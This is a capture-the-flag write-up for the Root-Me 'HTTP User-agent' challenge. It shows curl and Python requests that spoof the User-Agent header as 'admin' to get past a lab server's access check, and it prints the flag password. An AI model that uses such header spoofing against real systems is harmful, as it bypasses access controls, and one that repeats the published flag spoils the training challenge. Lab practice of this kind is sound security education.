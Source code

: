 ```yaml
---
title: HTTP - User-agent
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent](https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent)

## Solution

Let's visit the site's source:
```sh
curl http://challenge01.root-me.org/web-serveur/ch2/
```
```html
<html>
  <body>
    <link rel="stylesheet" property="stylesheet" id="s" type="text/css" href="/template/s.css" media="all" /><iframe id="iframe" src="https://www.root-me.org/?page=externe_header"></iframe>
    <h3>Wrong user-agent: you are not the "admin" browser!</h3>
  </body>
</html>
```

Okey, only admin can get access
```sh
curl -H "user-agent: admin" http://challenge01.root-me.org/web-serveur/ch2/
```
```html
<html>
  <body>
    <link rel="stylesheet" property="stylesheet" id="s" type="text/css" href="/template/s.css" media="all" /><iframe id="iframe" src="https://www.root-me.org/?page=externe_header"></iframe>
    <h3>
      Welcome master!<br />
      Password: rr$Li9%L34qd1AAe27
    </h3>
  </body>
</html>
```

Perfect, the flag is
```
rr$Li9%L34qd1AAe27
```

We can use Python, too
```python
import requests
resp = requests.get('http://challenge01.root-me.org/web-serveur/ch2/', headers={'User-Agent': 'Admin'})
print(resp.text)
```
